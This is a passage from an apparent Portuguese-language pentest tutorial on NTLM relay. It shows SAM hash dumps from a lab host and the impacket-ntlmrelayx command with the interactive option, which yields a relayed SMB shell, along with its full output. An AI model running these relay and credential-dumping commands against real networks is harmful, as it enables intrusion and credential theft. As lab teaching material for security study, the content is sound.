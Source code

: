```
[*] Dumping local SAM hashes (uid:rid:lmhash:nthash)
Administrator:500:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
Guest:501:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
DefaultAccount:503:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
WDAGUtilityAccount:504:aad3b435b51404eeaad3b435b51404ee:9ebbbaa98c9ab926aae0a26b1a7945ca:::
test:1003:aad3b435b51404eeaad3b435b51404ee:64f12cddaa88057e06a81b54e73b949b:::
[*] Done dumping SAM hashes for host: 192.168.0.102
[*] Stopping service RemoteRegistry
[*] Restoring the disabled state for service RemoteRegistry
[*] SMBD-Thread-9 (process_request_thread): Connection from 192.168.0.101 controlled, but there are no more targets left!


```

#### _Shell_ Interactiva

Com a opção -i _(interactive)_ a ferramenta cria uma _reverse shell_ que poderemos aceder atraves da nossa maquina.

\*\* \[\*] Started interactive SMB client shell via TCP on 127.0.0.1:11000 \*\*

```terminal
┌──(kali㉿insecure)-[~]
└─$ impacket-ntlmrelayx -t 192.168.0.102 -smb2support -i
Impacket v0.10.0 - Copyright 2022 SecureAuth Corporation

[*] Protocol Client LDAP loaded..
[*] Protocol Client LDAPS loaded..
[*] Protocol Client MSSQL loaded..
[*] Protocol Client DCSYNC loaded..
[*] Protocol Client RPC loaded..
[*] Protocol Client HTTP loaded..
[*] Protocol Client HTTPS loaded..
[*] Protocol Client SMB loaded..
[*] Protocol Client IMAP loaded..
[*] Protocol Client IMAPS loaded..
[*] Protocol Client SMTP loaded..
[*] Running in relay mode to single host
[*] Setting up SMB Server
[*] Setting up HTTP Server on port 80
[*] Setting up WCF Server
[*] Setting up RAW Server on port 6666

[*] Servers started, waiting for connections
[*] SMBD-Thread-5 (process_request_thread): Received connection from 192.168.0.101, attacking target smb://192.168.0.102
[*] Authenticating against smb://192.168.0.102 as INSECURE/JCID SUCCEED
[*] Started interactive SMB client shell via TCP on 127.0.0.1:11000
[*] SMBD-Thread-7 (process_request_thread): Connection from 192.168.0.101 controlled, but there are no more targets left!
[*] SMBD-Thread-8 (process_request_thread): Connection from 192.168.0.101 controlled, but there are no more targets left!



```
